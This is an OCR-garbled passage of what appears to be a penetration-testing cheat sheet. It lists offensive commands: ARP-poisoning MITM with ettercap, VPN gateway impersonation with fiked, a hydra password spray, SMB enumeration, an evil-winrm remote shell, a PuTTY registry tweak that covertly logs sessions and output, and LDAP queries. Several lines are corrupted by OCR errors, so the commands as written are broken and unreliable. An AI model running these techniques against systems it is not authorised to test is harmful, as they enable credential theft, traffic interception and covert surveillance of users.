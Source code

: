 ```text
    iptables -P FORWARD ACCEP~
6. Start Fiked to impersonate the VPN Server
   fiked - g vpn gatewa; ip - k VPN Group Name:Group Pre-Shared Ke;
7. Stop Ettercap
8. Restart Ettercap without the filter
   ettercap -T -M arp II II
```

### Guess username with hydra

```text
hydra -L ~/seclists/Usernames/Names/femalenames-usa-top1000.txt -p Welcome123! IP PROTOCOL
```

### Display smb paths with smbclient

```text
smbclient -U USERNAME -L IP
```

### Accessing the system environment using WRM

```text
ruby evil-winrm.rb -u USER -p PASS -i IP
```

## Directing local traffic to a specified address

```text
simpleproxy -L 8000 -R 10.10.10.10:1337
```

## Putty software

### Registry key to report any operation by putty (even commands and outputs)

```text
[HKEY_CURRENT_USER\Software\Si~onTatham\Putt;\Sessions\Default%20Settings]
"LogFileName"="%TEMP%\putty.dat"
"LogType"=dword:00000002"
```

## ldap

### Search for important ldap information using impackt

```text
ldapsearch -h <host> -x -b "dc=<dc>,dc=local"
```

### Display all ldap structural information

